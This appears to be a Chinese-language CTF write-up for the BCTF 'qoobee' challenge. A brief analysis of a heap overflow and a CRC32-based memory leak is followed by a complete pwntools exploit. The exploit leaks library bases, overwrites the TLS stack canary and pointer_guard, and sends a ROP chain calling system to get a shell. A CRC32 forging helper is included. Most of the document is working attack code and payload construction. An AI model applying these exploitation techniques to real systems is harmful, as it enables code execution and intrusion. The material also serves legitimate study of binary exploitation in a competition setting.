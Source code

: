 ```yaml
---  
layout: post  
title: "bctf_qoobee"  
date: 2015-10-13 21:43:06 +0800  
comments: true  
categories:   
---  
```

###0x00 程序分析  
程序有明显的堆溢出，和一个未被调用的栈溢出函数  
功能3可以泄漏任意地址的内容  
先malloc0x21000在tls前，溢出canary_guard和pointer_guard，把pointer_guard改成0x400d79^一个值  
使用功能2时会进入0x400d79，rop得到shell  
  
###0x01 exp  
  
	from pwn import *  
	import crc32  
  
	if len(sys.argv)>1:  
	  r = remote(sys.argv[1], 1002)  
	else:  
	  #r = remote('127.0.0.1', 8888)  
	   r = process('./qoobee')  
	def leak_crc32(addr):  
	  r.recvuntil('# ')  
	  r.send('1\n')  
	  r.recvuntil('How many dounts you want? ')  
	  r.send('x'*2040 + p64(addr) + 'aaaaaaaa\n')  
	  r.recvuntil('# ')  
	  r.send('3\n')  
	  r.recvuntil('Input your local system timestamp: ')  
	  r.send('aaa\n')  
	  r.recvuntil('Response: ')  
	  x = int(r.recvuntil('\n')[:-1], 16)  
	  return x  
  
	def leak(leak_buf, addr, n):  
	  addr -= 8  
	  s = ''  
	  for i in range(0, n, 4):  
	    r.recvuntil('# ')  
	    r.send('1\n')  
	    r.recvuntil('How many dounts you want? ')  
	    r.send('x'*2040 + p64(addr+i) + 'aaaaaaaa\n')  
	    r.recvuntil('# ')  
	    r.send('3\n')  
	    r.recvuntil('Input your local system timestamp: ')  
	    r.send('aaa\n')  
	    r.recvuntil('Response: ')  
	    x = int(r.recvuntil('\n')[:-1], 16)  
	    x = crc32.forge(x, leak_buf)[-4:]  
	    s += x  
	    leak_buf = (leak_buf + x)[-8:]  
	  return s[:n]  
  
	log.info('payload 1')  
	raw_input()  
	libz_base = u64(leak(p64(0x400bd6), 0x00007ffff7bc5000, 8))  
	#libz_base = u64(leak(p64(0x400bd6), 0x6020a0, 8)) - 0x2740  
	log.info('done')  
	print 'libz_base = %x' % libz_base  
	magic = crc32.crc32(unhex('7f454c460201010000000000'))  
  
	libc_base = libz_base - 0x6c9000  
	log.info('payload 2')  
	raw_input()  
	ss = leak('\x00'*8, libz_base + 0x4317a0, 24)  
	log.info('done')  
	stackguard = u64(ss[8:16])  
	pointerguard = u64(ss[16:24])  
  
	payload = [0]*38  
	payload[4] = libz_base - 0x309fa0  
	payload[5] = libz_base - 0x305c20  
	payload[8] = libz_base - 0x561380  
	payload[10] = libz_base - 0x561980  
	payload[12] = libz_base - 0x560a80  
	payload[30] = libz_base + 0x431780  
	payload[31] = libz_base + 0x432090  
	payload[32] = libz_base + 0x431780  
	payload[35] = stackguard  
	payload[36] = 0x69ea000000000020 ^ 0x400d79  
	payload = ''.join(map(p64, payload))  
  
	r.recvuntil('# ')  
	r.send('1\n')  
	r.recvuntil('How many dounts you want? ')  
	r.send(str(0x22100) + '\n')		#middle malloc  
	r.recvuntil('Remark: ')  
	log.info('payload 3')  
	raw_input()  
	r.send('A'*(0x24690-16) + payload + '\n')  
	log.info('done')  
  
	r.recvuntil('# ')  
	r.send('2\n')  
	r.recvuntil('Now you can leave me a message: ')  
  
	pop_rdi_ret = 0x401503  
	gets = libc_base + 0x6f440  
	system = libc_base + 0x46640  
  
	log.info('payload 4')  
	raw_input()  
	r.send(p64(stackguard)*33 + (  
	  p64(pop_rdi_ret) + p64(libc_base + 0x17ccdb) + p64(system)   
	  ) + '\n')  
	log.info('done')  
  
	r.interactive()  
	r.close()  
  
crc32  
  
	from struct import pack,unpack  
	import binascii  
  
	# Poly in "reversed" notation -- http://en.wikipedia.org/wiki/Cyclic_redundancy_check  
	POLY = 0xedb88320 # CRC-32-IEEE 802.3  
	#POLY = 0x82F63B78 # CRC-32C (Castagnoli)  
	#POLY = 0xEB31D82E # CRC-32K (Koopman)  
	#POLY = 0xD5828281 # CRC-32Q  
  
	def build_crc_tables():  
	    for i in range(256):  
		fwd = i  
		rev = i << 24  
		for j in range(8, 0, -1):  
		    # build normal table  
		    if (fwd & 1) == 1:  
			fwd = (fwd >> 1) ^ POLY  
		    else:  
			fwd >>= 1  
		    crc32_table[i] = fwd & 0xffffffff  
		    # build reverse table =)  
		    if rev & 0x80000000 == 0x80000000:  
			rev = ((rev ^ POLY) << 1) | 1  
		    else:  
			rev <<= 1  
		    rev &= 0xffffffff  
		    crc32_reverse[i] = rev  
  
	crc32_table, crc32_reverse = [0]*256, [0]*256  
	build_crc_tables()  
  
  
	def crc32(s): # same crc32 as in (binascii.crc32)&0xffffffff  
	  crc = 0xffffffff  
	  for c in s:  
	    crc = (crc >> 8) ^ crc32_table[(crc ^ ord(c)) & 0xff]  
	  return crc ^0xffffffff  
  
  
  
	def forge(wanted_crc, str, pos=None):  
	  if pos is None:  
	    pos = len(str)  
  
	  # forward calculation of CRC up to pos, sets current forward CRC state  
	  fwd_crc = 0xffffffff # <<<< PATCHED!  
	  for c in str[:pos]:  
	    fwd_crc = (fwd_crc >> 8) ^ crc32_table[(fwd_crc ^ ord(c)) & 0xff]  
  
	  # backward calculation of CRC up to pos, sets wanted backward CRC state  
	  bkd_crc = wanted_crc ^0xffffffff # <<<< PATCHED!  
	  for c in str[pos:][::-1]:  
	    bkd_crc = ((bkd_crc << 8)&0xffffffff) ^ crc32_reverse[bkd_crc >> 24] ^ ord(c)  
  
	  # deduce the 4 bytes we need to insert  
	  for c in pack('<L',fwd_crc)[::-1]:  
	    bkd_crc = ((bkd_crc << 8)&0xffffffff) ^ crc32_reverse[bkd_crc >> 24] ^ ord(c)  
  
	  res = str[:pos] + pack('<L', bkd_crc) + str[pos:]  
	  assert(crc32(res) == wanted_crc)  
	  return res  
  
  
###0x02 misc  
  
gdb 查找  
find  
